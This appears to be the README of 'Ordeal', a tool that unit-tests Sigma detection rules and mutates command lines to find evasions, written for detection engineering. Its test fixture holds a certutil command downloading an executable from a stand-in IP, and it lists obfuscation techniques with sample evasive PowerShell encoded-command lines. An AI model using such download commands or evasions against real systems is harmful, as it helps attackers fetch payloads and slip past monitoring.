

<picture>
  <source media="(prefers-color-scheme: dark)" srcset=".github/banner-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset=".github/banner-light.svg">
  
</picture>

# Ordeal

Trial by fire for Sigma detection rules. Ordeal asserts a rule fires on the events it should, then attacks the rule with known evasions and reports what slips past.

<!-- ------------------------------------------------------------ -->

## Install

```bash
go install github.com/principlebreach/ordeal/cmd/ordeal@latest
```

```bash
brew install principlebreach/tap/ordeal
```

## Usage

Assert your rules fire on their test cases:

```bash
ordeal run ./rules
```

Attack your rules and see what evades them:

```bash
ordeal mutate ./rules
```

A test suite lives next to the rule as `<rule>.test.yml`:

```yaml
rule: rule.yml
cases:
  - name: certutil urlcache download fires
    event:
      Image: 'C:\Windows\System32\certutil.exe'
      CommandLine: 'certutil.exe -urlcache -f http://198.51.100.10/a.exe a.exe'
    match: true
    selections: [selection_img, selection_flags]   # assert which selection fired

  - name: certutil dump is benign
    event:
      Image: 'C:\Windows\System32\certutil.exe'
      CommandLine: 'certutil.exe -dump'
    match: false
```

## What It Does

### Detection unit testing

- Runs unmodified Sigma rules against inline event fixtures, positive and negative.
- Asserts not just that a rule fired, but *which named selection* fired.
- Emits `human`, `json`, or `junit` output with distinct exit codes for CI.

### Adversarial mutation — the reason Ordeal exists

Ordeal asks the attacker's question: what is the cheapest change that keeps the
behaviour identical but stops the rule from firing? For every positive case that
fires, it applies a catalog of semantics-preserving command-line evasions and
reports each one that slips past.

- `flag-abbreviation` — `-EncodedCommand` runs identically as `-enc`.
- `windash` — `-flag` becomes `/flag`, en-dash, or em-dash.
- `caret-insertion` — `whoami` becomes `who^ami`; cmd.exe strips the caret.
- `quote-insertion` — `powershell` becomes `pow""ershell`.
- `env-indirection` — `C:\Windows\System32` becomes `%SystemRoot%\System32`.
- `forward-slash-path`, `trailing-dot`, `whitespace-padding`, `case-flip`.

## Example Output

```
ordeal mutate ./examples

BREACH  powershell encoded command fires  survives 7/17 evasions (41%)
        ▲ flag-abbreviation · CommandLine · abbreviated -encodedcommand to -enc
          powershell.exe -NoProfile -enc SQBFAFgA
        ▲ windash · CommandLine · replaced - flag prefix with forward slash
          powershell.exe /NoProfile /EncodedCommand SQBFAFgA
        ▲ caret-insertion · CommandLine · inserted ^ escape characters inside tokens
          power^shell.exe -NoPr^ofile -Encoded^Command SQBF^AFgA
        ▲ quote-insertion · CommandLine · inserted empty quote pairs inside tokens
          power""shell.exe -NoPr""ofile -Encoded""Command SQBF""AFgA

EVADED  3 detections tested, 28 evasions found
```

Exit `0` when nothing evades, `1` when a detection is breached, `2` on usage error.

## Why This Matters

A detection rule that passes review, converts cleanly, and merges green can still
be walked straight past in production. The gap is never the syntax — it is the
attacker's freedom to write the same command a hundred ways. `-EncodedCommand`
and `-enc` are the same PowerShell invocation; a rule that matches the first and
misses the second is a rule an operator defeats without trying.

Existing detection tests answer one question: does the rule fire on this event?
That is the easy half. Ordeal answers the half that decides whether the rule is
worth having: does the rule *keep* firing when the adversary changes the surface
and nothing else? The techniques in the catalog are not hypothetical — argument
abbreviation, caret and quote insertion, and dash substitution are documented
living-off-the-land evasions catalogued in MITRE ATT&CK T1027 and the `windash`
modifier that SigmaHQ added to the specification precisely because rules kept
missing them.

## Research

Ordeal is research-backed. It evaluates rules through
[`bradleyjkemp/sigma-go`](https://github.com/bradleyjkemp/sigma-go) and its
mutation catalog is drawn from documented obfuscation research:

- MITRE ATT&CK [T1027 — Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/) and [T1059.001 — PowerShell](https://attack.mitre.org/techniques/T1059/001/).
- The Sigma [`windash` value modifier](https://sigmahq.io/docs/basics/modifiers.html).
- Command-line argument obfuscation research (ArgFuscator, Invoke-DOSfuscation).

## Contributing

Contributions welcome. See [CONTRIBUTING.md](CONTRIBUTING.md). The mutation
catalog is the place new research lands.

## License

MIT — see [LICENSE](LICENSE).

---

<sub>Built by <a href="https://principlebreach.com">Principle Breach</a> — offensive security research.</sub>
